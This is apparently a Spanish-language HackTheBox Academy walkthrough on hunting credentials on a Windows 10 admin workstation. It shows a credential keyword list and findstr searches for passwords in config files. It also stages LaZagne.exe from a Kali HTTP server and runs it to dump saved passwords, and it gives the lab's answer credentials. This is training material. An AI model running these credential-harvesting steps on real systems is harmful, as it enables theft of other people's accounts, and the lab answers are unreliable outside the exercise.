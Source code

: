 Vamos a ponernos en un escenario en el que tengamos acceso como administrador al puesto de trabajo de un administrador de IT con windows10.

Centraremos nuestra búsqueda de credenciales en conceptos como:

```
Passwords
Passphrases
Keys
Username
User account
Creds
Users
Passkeys
configuration
dbcredential
dbpassword
pwd
Login
Credentials
```

## Estrategia 1. Herramineta "buscar" de windows (muy básico)
Presionando la tecla windows accedo al menú de búsqueda. En este, puedo escribir palabras claves (como las listadas anteriormente) para acceder a dichas archivos críticos.


## Estrategia 2. Utilizar herramientas de terceros como "LaZagne"

Podemos aprovechar herramientas de terceros como LaZagne para descubrir rápidamente credenciales que los navegadores web u otras aplicaciones instaladas puedan almacenar de forma insegura. LaZagne está compuesta por módulos que apuntan a diferentes programas al buscar contraseñas. Algunos de los módulos comunes se describen en la tabla a continuación:

| Módulo   | Descripción                                                                                                                      |
| -------- | -------------------------------------------------------------------------------------------------------------------------------- |
| browsers | Extrae contraseñas de varios navegadores, incluidos Chromium, Firefox, Microsoft Edge y Opera                                    |
| chats    | Extrae contraseñas de varias aplicaciones de mensajería, incluido Skype                                                          |
| mails    | Busca contraseñas en buzones de correo, incluidos Outlook y Thunderbird                                                          |
| memory   | Vuelca contraseñas desde la memoria, orientado a KeePass y LSASS                                                                 |
| sysadmin | Extrae contraseñas de los archivos de configuración de diversas herramientas de administración del sistema como OpenVPN y WinSCP |
| windows  | Extrae credenciales específicas de Windows, apuntando a secretos LSA, el Administrador de credenciales y más                     |
| wifi     | Vuelca credenciales de WiFi                                                                                                      |
Una vez que LaZagne.exe esté instalado en el objetivo, podemos abrir el símbolo del sistema o PowerShell, navegar al directorio donde se cargó el archivo y ejecutar el siguiente comando:
```cmd-session
C:\Users\bob\Desktop> start LaZagne.exe all
```

Dándonos como salida:
```
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

## Estrategia 3: Usar findstr
También podemos usar findstr para buscar patrones en diversos tipos de archivos. Teniendo en cuenta los términos clave comunes, podemos usar variaciones de este comando para descubrir credenciales en un destino Windows:
```
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

---
 **RDP to 10.129.202.99 (ACADEMY-PWATTACKS-WIN10CHUNTING) with user "Bob" and password "HTB_@cademy_stdnt!"
**1. What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)**
Simplemente, entro por RDP a la sesión del usuario y observo una carpeta en el escritorio que dentro contiene un excel con credenciales en texto plano. Viendo que la respuesta es: **WellConnected123"

**2. What is the GitLab access code Bob uses? (Format: Case-Sensitive)**
En la misma carpeta, existe un .txt que contiene en texto plano dicha información:
3z1ePfGbjWPsTfCsZfjy

**3.What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive)**

En la máquina Kali Linux atacante me descargo "LaZagne.exe".
Desde la ruta donde se encuentre el ejecutable .exe lo comparto por servidor http con :
```
┌─[eu-academy-3]─[10.10.15.71]─[htb-ac-1876550@htb-qptrlbwgrk]─[~/Downloads]
└──╼ [★]$ python3 -m http.server 8000
```

En la máquina Windows atacante, abro firefox y acudo a:
```
<ip_maquina_linux>:8000
```
Y me descargo el archivo LaZagne.exe.

Como tengo privilegios de administrador lo instalo.
Abro un cmd como administrador y ejecuto:

```
C:\Windows\system32>cd C:\Users\bob\Downloads
C:\Users\bob\Downloads>start LaZagne.exe all
```
Y me devuelve:

```
########## User: bob ##########
------------------- Winscp passwords -----------------
[+] Password found !!!
URL: 10.129.202.64
Login: ubuntu
Password: FSadmin123
Port: 22                                                                                    
```

Siendo la solución del ejercicio: ubuntu:FSadmin123

**3. What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive)**
En la carpeta: "C:\Automations&Scripts" existe un fichero llamado BulkaddAusers que tiene la respuesta:
2Inlanefreightisgreat2022"


4.  What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive)**
Existe un archivo llamado "EdgeRouterConfigs" en "C:\Automations&Scripts\AnsibleScripts", que contiene dicha información:
```
edgeadmin:Edge@dmin123!
```

